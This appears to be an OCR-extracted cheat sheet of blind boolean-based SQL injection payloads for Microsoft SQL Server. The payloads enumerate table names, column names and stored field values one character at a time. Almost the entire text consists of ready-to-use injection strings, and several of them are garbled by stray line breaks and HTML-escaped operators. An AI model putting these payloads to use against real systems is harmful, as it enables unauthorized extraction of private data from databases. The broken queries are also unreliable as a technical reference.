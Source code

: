Extract 1st table:

```sql
1 AND LEN((SELECT TOP 1 NAME FROM sysobjects WHERE xtype='U'))&gt;5--

1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 NAME FROM sysobjects WHERE xtype='U'),1,1)))&gt;97--
```

Extract 2nd table (replace table1 with the first table’s name):

```sql
1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 NAME FROM sysobjects WHERE xtype='U'
1 AND name &gt;'table1'),1,1)))&gt;97--
```

Extract 3rd table (replace table2 with the second table’s name):

```sql
1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 NAME FROM sysobjects WHERE xtype='U'
1 AND name&gt;'table2'),1,1)))&gt;97--
```

Extract 1st column (replace table1):

```sql
1 AND LEN((SELECT TOP 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'))&gt;5--

1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'),1,1)))&gt;97--
```

Extract 2nd column (replace table1 and column1):

```sql
1 AND ASCII(LOWER(SUBSTRING((SELECT TOP 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1' AND column_name &gt;'column1'),1,1)))&gt;97--
```

Extract 1st field of column1 (replace column1 and table1):

```sql
1 AND LEN((SELECT TOP 1 column1 FROM table1))&gt;5--

1 AND ASCII(SUBSTRING((SELECT TOP 1 column1 FROM table1),1,1))&gt;65--
```

Extract 1st field of column2 (replace column1 and table1):

```sql
1 AND LEN((SELECT TOP 1 column2 FROM table1))&gt;5--

1 AND ASCII(SUBSTRING((SELECT TOP 1 column2 FROM table1),1,1))&gt;65--
```

Extract 2nd field of column1 (replace column1,table1 and field1):

```sql
1 AND ASCII(SUBSTRING((SELECT TOP 1 column1 FROM table1 WHERE column1 &gt;'field1'),1,1))&gt;65--
```
